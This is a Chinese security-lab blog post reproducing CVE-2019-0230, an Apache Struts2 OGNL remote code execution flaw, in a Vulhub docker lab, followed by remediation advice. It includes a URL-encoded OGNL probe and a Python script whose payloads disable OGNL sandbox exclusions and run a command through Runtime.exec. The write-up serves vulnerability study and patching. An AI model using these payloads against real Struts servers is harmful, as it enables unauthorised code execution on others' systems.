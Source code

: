 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/uEfkaDS6G5YJ-w1vywZypw)

  

  

网安引领时代，弥天点亮未来   

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞简述**  

  

  

 2020 年 08 月 13 日，Apache 官方发布了 Struts2 远程代码执行漏洞的风险通告，该漏洞编号为 CVE-2019-0230，漏洞等级：高危，漏洞评分：8.5。

漏洞产生的主要原因是因为 Apache Struts 框架在强制执行时，会对分配给某些标签属性 (如 id) 的属性值执行二次 ognl 解析。攻击者可以通过构造恶意的 OGNL 表达式，并将其设置到可被外部输入进行修改，且会执行 OGNL 表达式的 Struts2 标签的属性值，引发 OGNL 表达式解析，最终造成远程代码执行的影响。

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 影响版本**

  

  

Apache Struts2：2.0.0-2.5.20

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 漏洞复现**

  

  

虚拟机部署 docker 安装 Vulhub 一键搭建漏洞测试靶场环境。

```
docker-compose up -d
```

1、访问漏洞环境

    ![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6a7e8LfVqWGFxTbOrWHb5YuUTqdC2A3icmmIMFdnvh7ick5ovVnw5yl5wg/640?wx_fmt=png)               

2、POC 验证，传入 ognl 表达式的 poc： **%{yun\*zui}** 这里需要 URL 编码

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6aWvKMicL20lRruEicDPia2rYofPa3zW2wSqRJl2CD0Vg1ficwKrX4IRUpfQ/640?wx_fmt=png)

http://192.168.60.131:8080/?id=%25%7Byun\*zui%7D

从测试结果可以看到 **id 属性返回了 yun\*zui 的结果，漏洞存在！**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6aZtLQCIuJnEp1VXSY76vrtoZCUlK7r7Pjgo7Xfpry7RCqDTL1ibSvIicQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6a7TKt3Xq46GSUS0EmEesbpb7DCRhJ56nYMibtyiavczS2CUE1kQEibtIBg/640?wx_fmt=png)

3、简单 python 脚本进行漏洞利用

```
import requests
url ="http://192.168.60.131:8080"
data1 = {
    "id":"%{(#context=#attr\['struts.valueStack'\].context).(#container=#context\['com.opensymphony.xwork2.ActionContext.container'\]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
   "id":"%{(#context=#attr\['struts.valueStack'\].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch/tmp/yunzui'))}"
}
res1 =requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url,data=data2)
# print(res2.text)
```

运行完脚本之后，将远程执行

```
touch/tmp/yunzui
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6agazBvgU4TCB1zGkSLhFCnKvYVQxFh8uHFONnoaDRVjccDecFMXYo4Q/640?wx_fmt=png)

4、命令执行结果进入 docker 查看，成功执行

```
docker-compose exec struts2 bash
ls -al /tmp
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDpKMiaZgicTGpaXLcEoibHf6aAyS8gc7WvfYU6xIiaSktc5qDubXOibEzWQ4NvhibjGnQyED8LMqI44FvQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**

  

  

升级到 Struts2.5.22 或更高版本

或者开启 ONGL 表达式注入保护措施

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x04 参考链接**

  

  

https://cert.360.cn/warning/detail?id=d2b39f48fd31f3b36cc957f23d4777af

https://cwiki.apache.org/confluence/display/WW/S2-059

https://codeload.github.com/vulhub/vulhub/zip/master

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)